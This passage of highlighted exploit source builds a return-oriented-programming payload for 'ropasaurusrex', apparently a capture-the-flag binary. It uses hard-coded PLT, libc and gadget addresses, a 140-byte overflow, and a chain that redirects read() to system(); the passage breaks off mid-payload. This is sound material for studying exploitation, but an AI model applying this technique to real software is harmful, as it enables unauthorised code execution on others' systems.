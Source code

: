 ```
<span class="lnr">11 </span><span class="Comment"># From objdump -D ./ropasaurusrex | grep read</span>
<span class="lnr">12 </span>read_addr = <span class="Constant">0x0804832C</span>
<span class="lnr">13 </span><span class="Comment"># From objdump -D ./ropasaurusrex | grep write</span>
<span class="lnr">14 </span>write_addr = <span class="Constant">0x0804830C</span>
<span class="lnr">15 </span><span class="Comment"># From gdb, "x/x system"</span>
<span class="lnr">16 </span>system_addr = <span class="Constant">0xb7ec2450</span>
<span class="lnr">17 </span><span class="Comment"># Fram objdump, "pop/pop/pop/ret"</span>
<span class="lnr">18 </span>pppr_addr = <span class="Constant">0x080484b6</span>
<span class="lnr">19 </span>
<span class="lnr">20 </span><span class="Comment"># The location where read()'s .plt entry is</span>
<span class="lnr">21 </span>read_addr_ptr = <span class="Constant">0x0804961c</span>
<span class="lnr">22 </span>
<span class="lnr">23 </span><span class="Comment"># The difference between read() and system()</span>
<span class="lnr">24 </span><span class="Comment"># Calculated as  read (0xb7f48110) - system (0xb7ec2450)</span>
<span class="lnr">25 </span><span class="Comment"># Note: This is the one number that needs to be calculated using the</span>
<span class="lnr">26 </span><span class="Comment"># target version of libc rather than my own!</span>
<span class="lnr">27 </span>read_system_diff = <span class="Constant">0x85cc0</span>
<span class="lnr">28 </span>
<span class="lnr">29 </span><span class="Comment"># Generate the payload</span>
<span class="lnr">30 </span>payload = <span class="Special">"</span><span class="Constant">A</span><span class="Special">"</span>*<span class="Constant">140</span> +
<span class="lnr">31 </span>  [
<span class="lnr">32 </span>    <span class="Comment"># system()'s stack frame</span>
<span class="lnr">33 </span>    buf,         <span class="Comment"># writable memory (cmd buf)</span>
<span class="lnr">34 </span>    <span class="Constant">0x44444444</span>,  <span class="Comment"># system()'s return address</span>
<span class="lnr">35 </span>
<span class="lnr">36 </span>    <span class="Comment"># pop/pop/pop/ret's stack frame</span>
<span class="lnr">37 </span>    <span class="Comment"># Note that this calls read_addr, which is overwritten by a pointer</span>
<span class="lnr">38 </span>    <span class="Comment"># to system() in the previous stack frame</span>
<span class="lnr">39 </span>    read_addr,   <span class="Comment"># (this will become system())</span>
<span class="lnr">40 </span>
<span class="lnr">41 </span>    <span class="Comment"># second read()'s stack frame</span>
<span class="lnr">42 </span>    <span class="Comment"># This reads the address of system() from the socket and overwrites</span>
<span class="lnr">43 </span>    <span class="Comment"># read()'s .plt entry with it, so calls to read() end up going to</span>
<span class="lnr">44 </span>    <span class="Comment"># system()</span>
<span class="lnr">45 </span>    <span class="Constant">4</span>,           <span class="Comment"># length of an address</span>
<span class="lnr">46 </span>    read_addr_ptr, <span class="Comment"># address of read()'s .plt entry</span>
<span class="lnr">47 </span>    <span class="Constant">0</span>,           <span class="Comment"># stdin</span>
<span class="lnr">48 </span>    pppr_addr,   <span class="Comment"># read()'s return address</span>
<span class="lnr">49 </span>
<span class="lnr">50 </span>    <span class="Comment"># pop/pop/pop/ret's stack frame</span>
<span class="lnr">51 </span>    read_addr,
<span class="lnr">52 </span>
<span class="lnr">53 </span>    <span class="Comment"># write()'s stack frame</span>
<span class="lnr">54 </span>    <span class="Comment"># This frame gets the address of the read() function from the .plt</span>
```